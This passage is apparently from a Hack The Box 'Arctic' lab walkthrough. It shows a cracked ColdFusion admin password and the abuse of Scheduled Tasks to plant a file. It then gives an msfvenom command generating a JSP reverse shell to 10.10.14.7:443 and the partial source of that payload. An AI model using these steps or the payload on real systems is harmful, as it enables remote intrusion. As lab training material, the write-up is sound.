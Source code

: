 This reveals the **password hash**, which is then cracked with CrackStation:  

![Cracked password](GitHubv2/HackTheBox/EASY/Arctic/screenshots/crackstation.png)  

Password `happyday` obtained.

Login successful:  

![Successful login](GitHubv2/HackTheBox/EASY/Arctic/screenshots/web_login.png)  

At this point, we know that we have **directory listing capabilities**, as we can access the `CFIDE` directory. This implies that, at the system level, there must be a corresponding filesystem path for this directory. If we can identify that path, we may be able to upload a malicious file into the system.

---
### 3.2 Uploading a Malicious JSP Payload

Among the various options available in the web interface, some are particularly interesting. Let’s go through them one by one:

- **Mapping**  
    This section reveals system paths, and conveniently we can see the path for `CFIDE`, which originates from `wwwroot`:

![Mappings panel](GitHubv2/HackTheBox/EASY/Arctic/screenshots/web_mapping.png)  

- **Scheduled Tasks**  
    Another interesting section is **Scheduled Tasks**, which allows us to configure jobs that can download files from an external source and place them into a specified directory on the server. This feature can be abused to upload a malicious payload to the system.:

![Scheduled Tasks panel](GitHubv2/HackTheBox/EASY/Arctic/screenshots/web_scheduled_tasks.png)  

Currently, there are no tasks configured, but we can create one. This is particularly interesting because scheduled tasks will download the files we specify into a chosen directory. In other words, we can configure an exploit and let the scheduled task place it into the system.

Since ColdFusion supports **ASP**, **JSP**, and **PHP**, the most suitable choice here is to create a malicious **JSP** payload. We can generate a reverse shell using **msfvenom**.

```bash
msfvenom -l payloads | grep jsp
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.7 LPORT=443 -o reverse.jsp
```

![MSFvenom payloads](GitHubv2/HackTheBox/EASY/Arctic/screenshots/msfvenom_payloads.png)  

Payload generated: `reverse.jsp`:

``` bash
<%@page import="java.lang.*"%>
<%@page import="java.util.*"%>
<%@page import="java.io.*"%>
<%@page import="java.net.*"%>

<%
  class StreamConnector extends Thread
  {
    InputStream cb;
      OutputStream b0;
  
      StreamConnector( InputStream cb, OutputStream b0 )
      {
        this.cb = cb;
        this.b0 = b0;
      }
  
```
